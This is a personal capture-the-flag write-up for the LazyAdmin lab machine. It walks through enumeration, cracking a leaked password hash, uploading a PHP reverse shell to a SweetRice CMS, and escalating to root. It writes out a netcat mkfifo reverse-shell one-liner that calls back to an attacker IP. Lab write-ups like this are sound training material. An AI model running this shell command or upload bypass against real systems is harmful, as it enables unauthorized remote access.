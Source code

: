 LazyAdmin 12/12/2024 (This is a personal writeup to be consulted later)  
#Enumeration
We scan with nmap to see open ports and services :  
![image](https://github.com/user-attachments/assets/ea4fdd5b-9f93-4127-9806-dd219dd2dbb3)  
2 open ports , ssh and 80/tcp  

using Gobuster , we find this directory : 
![image](https://github.com/user-attachments/assets/6ff6fa76-dff6-4c5c-b752-487ae314fd6e)  
![image](https://github.com/user-attachments/assets/c608268a-096e-45f1-9a6d-4669bbee4562)  

We know now that the machine is using SweetRice

I will try to use Metasploit , and search for known CVE for SweetRice  
![image](https://github.com/user-attachments/assets/25fcc2f5-fd13-4fd6-8702-11c779e8b129)  

i didn't find anything   

I run Gobuster Again but on http://10.10.90.211/content  , Maybe I find something interesting  
![image](https://github.com/user-attachments/assets/e55f06ac-76a2-493e-b9d1-47ea0e6a3a76)  

![image](https://github.com/user-attachments/assets/ce7efed9-94d6-41cc-8c2c-a91411d7cab7)  
I found this login page .  
I also see mysql BACKUP !!  
![image](https://github.com/user-attachments/assets/5bc58d61-2bc0-4e2d-a081-69cbd2e92299)  
![image](https://github.com/user-attachments/assets/f81283eb-4d8d-4e0a-a1e2-029ada841b45)  

I open the sql file , and i find a password hash , it may be it  
![image](https://github.com/user-attachments/assets/c9a3dfb7-02e7-4d35-ae61-5362e5d39f36)  

I use crackstation.net to crack the md5 hash  
![image](https://github.com/user-attachments/assets/f8c97409-fd92-43e6-9ec9-b6d292dff41b)  
and I found the password !!  

Now I try to login : manager/Password123  
![image](https://github.com/user-attachments/assets/678e57e2-7d42-4072-b722-fabac89d5029)  

then I create a shell file php  
![image](https://github.com/user-attachments/assets/a787cf01-82a3-48e0-90b8-16c64524c6b3)  

the web app doesn't accept php file , so i changed the extension to 'phtml'  
I start now my Listener  
I upload the file in the Media Center page  
![image](https://github.com/user-attachments/assets/53f865a9-b940-4ddd-8cbe-03e4ebc1e70b)  
I click on file ,  
and Here We Go !! we got the reverse shell  
![image](https://github.com/user-attachments/assets/ea216fb9-c503-4fd5-a64e-74fc9e9df4f5)  
![image](https://github.com/user-attachments/assets/a29cb988-8832-40f7-8f85-c68e2ec4f5b0)  
![image](https://github.com/user-attachments/assets/0cd02237-c616-4945-b13e-1968bb400b6d)  
I found these credentials in the mysql_login.txt (rice:randompass)  

for the root  
![image](https://github.com/user-attachments/assets/80b607f7-5fe1-45b5-8a82-ee4a1778c60b)  

![image](https://github.com/user-attachments/assets/8c4c3bd8-f80f-45d2-a24f-0b8dad21e430)  
it looks like a reverse shell  
I will change the ip adress address with address of my machine
"echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.1.246 5554 >/tmp/f" > copy.sh" 

before that i start a listener on my machiine to port 5554 :  
![image](https://github.com/user-attachments/assets/ccd9fd34-0368-4145-86d4-fbd0bced1dd6)  
I got this result after I executed the file copy.sh  
![image](https://github.com/user-attachments/assets/3a4b4400-6806-42a3-8bf9-a5144e41f3d0)  
in the new listener  :   
well it is wrong  
I need to use perl , to into root  
![image](https://github.com/user-attachments/assets/b46f40ca-f178-435f-b1ab-65c7167e9b22)  
![image](https://github.com/user-attachments/assets/b50f632f-4935-411e-b242-de208ecb8c4e)  

![image](https://github.com/user-attachments/assets/f9308ea6-d683-4d98-8abb-935e13193317)  















